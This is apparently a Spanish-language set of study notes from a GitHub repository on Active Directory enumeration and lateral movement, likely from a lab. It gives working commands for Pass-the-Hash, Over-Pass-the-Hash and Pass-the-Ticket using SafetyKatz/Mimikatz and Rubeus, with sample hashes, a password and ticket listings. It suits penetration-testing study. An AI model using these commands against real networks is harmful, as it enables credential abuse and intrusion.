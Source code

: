 ## Tabla de contenido

- [Enumeración](#Enumeración)
- *[LogonSesssion](#LogonSesssion)*
- [Token](#Token)
- [Movimiento_lateral](#Movimiento_lateral)
  - [runas](#runas)
  - *[Pass-the-Hash](#Pass-the-Hash)*
  - *[Over-Pass-the-Hash](#Over-Pass-the-Hash)*
  - *[Pass-the-ticket](#Pass-the-Ticket)*
  - [ASK-TGT/TGSt](#ASK_TGT_TGS)

# Enumeración
### Listar usuarios locales:
```powershell
Get-LocalUser
Get-WmiObject -Class win32_userprofile | select localpath, SID
```

### Listar usuarios del dominio:
```powershell
Get-ADUser -Filter *
Get-ADUser -Filter * -Server 192.168.1.155
```

### Listar grupos locales
```powershell
Get-LocalGroup
```

### Listar grupos del dominio
```powershell
Get-ADGroup -Filter *
Get-ADGroup -Filter * -Server 192.168.1.155
```
# *LogonSesssion*

Se crea cuando hay una autenticación sea de manera remota o local. Las credenciales siempre se asignan a una *logon session*.

![Ex00](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/1.png)

Hay dos tipos:

**(1) Interactivas**: las credenciales se almacenan en memoria (lsass.exe) para *Single Sign-On*.

**(2) No interactivas**: no se almacenan en memoria, solo se envían en la red. Por defecto **no se guardan en memoria**.
Ejmplo:

![Ex01](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/2.png)

Nota: aunque el usuario pepe puede consumir el recurso con permisos de lectura y escritura, si estas (credenciales) no se envían de manera explícita para consumir un recurso a través de SSO, no se podrá consumir el recurso.

# *Token*

Estructura de datos con información de seguridad de un usuario, gupos, identificar, etc.

![Ex02](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/3.png)

Con ello el sistema operativo, aplica controles de acceso a través de privilegios. Todos los objetos del sistema operativo Windows cuentan con descriptores de seguridad, allí está la lista **DACL** y en ella se especifica quién tiene acceso a los objetos.

![Ex03](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/4.png)

# Movimiento_lateral

## *runas*

Con credenciales válidas, es posible crear un proceso actuando como ese usuario.
- Aplica de manera local:
```powershell
runas.exe /user:ffff /savecred cmd.exe
```
- Aplica de manera remota:
```powershell
runas /noprofile /netonly /user:domain\Administrator powershell.exe
```

## *Pass-the-Hash*
1. Se crea una nueva sesión.
2. Se duplica el *token* original.
3. Se referencia la nueva sesión.
4. Se pueaplica al hilo principal o crear nuevo proceso y aplicarlo.

```powershell
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /user:juan /domain:cs.org /ntlm:709d4242de780b1f34c19c78ad1630fd /run:powershell.exe" "exit"
```

Al contar con los paquetes de autenticación *msv1_0* y *kerberos*, es posible acceder el consumo de los servicios a través de NTLM y Kerberos (si el servidor lo soporta).
```powershell
msv1_0   - data copy @ 0000013DED28C5E0 : OK !
kerberos - data copy @ 0000013DECC9C6C8
```
## *Over-Pass-the-Hash*
1. Se crea una nueva sesión.
2. Se actualizan *hash* y/o llaves de la sesión.
3. Se copia el *token* original.
4. Similar a **runas /netonly** pero sin credenciales.

La técnica de *Over Pass the Hash* implica la generación de un nuevo ticket de Kerberos y la importación de este ticket en la memoria del sistema, lo cual generalmente requiere privilegios de administrador.
```powershell
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /user:juan /domain:cs.org /ntlm:709d4242de780b1f34c19c78ad1630fd /ptt"
```

En este caso, se agrega el parámetro **/ptt** al comando de *Pass the Hash* anterior. Esto indica a Mimikatz que importe el ticket de Kerberos generado en la memoria del sistema para establecer una sesión de autenticación en lugar de solo realizar un *Pass the Hash*. Esto permite realizar la técnica de *Over Pass the Hash* y obtener acceso a otros recursos o sistemas dentro de la red.

## *Pass-the-Ticket*

El parámetro "asktgt" en Rubeus, se utiliza para solicitar un Ticket Granting Ticket (TGT) utilizando las credenciales de un usuario especificado. Y es psoible realizarlo de manera remota:
```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:cs.org\juan /password:Colombia.2023. /dc:192.168.1.155
# Para importar el *ticket*:
C:\AD\Tools\Rubeus.exe ptt /ticket:doIFDjCCBQqgAw...
```

## ASK-TGT/TGS

Se genera tráfico legítimo Kerberos para solicitar: AS-REQ TGS-REQ. ¡No necesita ser administrador!
Para solicitar el TGT concociendo el *Hash* del usuario: 
```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:juan /domain:cs.org /rc4:709d4242de780b1f34c19c78ad1630fd /dc:192.168.1.155 /ptt
```
Al listar el *ticket*, solo se tendrá el recién importado:
```powershell
#0>     Client: juan @ CS.ORG
        Server: krbtgt/cs.org @ CS.ORG
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 6/26/2024 12:35:32 (local)
        End Time:   6/26/2024 22:35:32 (local)
        Renew Time: 7/3/2024 12:35:32 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```
Al consumir el servicio CIF, se creará el TGS, Windows hará el trabajo.

```powershell
#2>     Client: juan @ CS.ORG
        Server: cifs/server-01 @ CS.ORG
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 6/26/2024 12:49:01 (local)
        End Time:   6/26/2024 22:48:51 (local)
        Renew Time: 7/3/2024 12:48:51 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called: SERVER-01.cs.org
```

Creando el TGS manualmente para consumir el sercio CIF:

```powershell
C:\AD\Tools\Rubeus.exe asktgs /ticket:doIFDj... /service:cifs/server-01.cs.org /ptt
# Al listar el *ticket* creado:
#0>     Client: juan @ CS.ORG
        Server: cifs/server-01.cs.org @ CS.ORG
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 6/26/2023 13:18:53 (local)
        End Time:   6/26/2023 20:08:43 (local)
        Renew Time: 7/3/2023 10:08:43 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

